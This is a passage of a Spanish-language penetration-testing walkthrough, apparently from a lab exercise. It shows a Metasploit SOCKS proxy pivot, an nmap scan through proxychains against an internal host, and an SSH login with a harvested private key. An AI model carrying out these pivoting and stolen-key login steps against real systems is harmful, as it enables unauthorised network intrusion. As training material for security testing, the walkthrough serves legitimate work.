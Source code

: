 ```r

   Name   Description
   ----   -----------
   Proxy  Run a SOCKS proxy server


[msf](Jobs:0 Agents:2) auxiliary(server/socks_proxy) >> set srvport 9050
srvport => 9050
[msf](Jobs:0 Agents:2) auxiliary(server/socks_proxy) >> set version 4a
version => 4a
[msf](Jobs:0 Agents:2) auxiliary(server/socks_proxy) >> run
[*] Auxiliary module running as background job 0.
[msf](Jobs:1 Agents:2) auxiliary(server/socks_proxy) >> 
[*] Starting the SOCKS proxy server
```

Edite el archivo `/etc/proxychains.conf` para usar el puerto `9050` que especificamos anteriormente. Si ya tiene una línea allí desde antes, coméntela o reemplace el número de puerto.

Ahora podemos probar esto ejecutando **Nmap** contra el objetivo, y confirmamos que podemos escanearlo.

```r
proxychains nmap -sT -p 22 172.16.9.25

ProxyChains-3.1 (http://proxychains.sf.net)
Starting Nmap 7.92 ( https://nmap.org ) at 2022-06-22 21:42 EDT
|S-chain|-<>-127.0.0.1:9050-<><>-172.16.9.25:80-<--denied
|S-chain|-<>-127.0.0.1:9050-<><>-172.16.9.25:22-<><>-OK
Nmap scan report for 172.16.9.25
Host is up (1.1s latency).

PORT   STATE SERVICE
22/tcp open  ssh

Nmap done: 1 IP address (1 host up) scanned in 1.50 seconds
```

Finalmente, podemos probar cada clave **SSH** con **proxychains** para intentar conectarnos al host.

 Podemos recopilar cada nombre de usuario por el nombre del archivo de la clave **SSH**. En nuestro caso, la clave para `ssmallsadm` funciona (no olvide **chmod 600** el archivo o no podremos conectarnos).

```r
proxychains ssh -i ssmallsadm-id_rsa ssmallsadm@172.16.9.25

ProxyChains-3.1 (http://proxychains.sf.net)
|S-chain|-<>-127.0.0.1:9050-<><>-172.16.9.25:22-<><>-OK
Welcome to Ubuntu 20.04.3 LTS (GNU/Linux 5.10.0-051000-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Thu 23 Jun 2022 01:48:14 AM UTC

  System load:  0.0                Processes:               231
  Usage of /:   27.9% of 13.72GB   Users logged in:         0
  Memory usage: 14%                IPv4 address for ens192: 172.16.9.25
  Swap usage:   0%


159 updates can be applied immediately.
103 of these updates are standard security updates.
```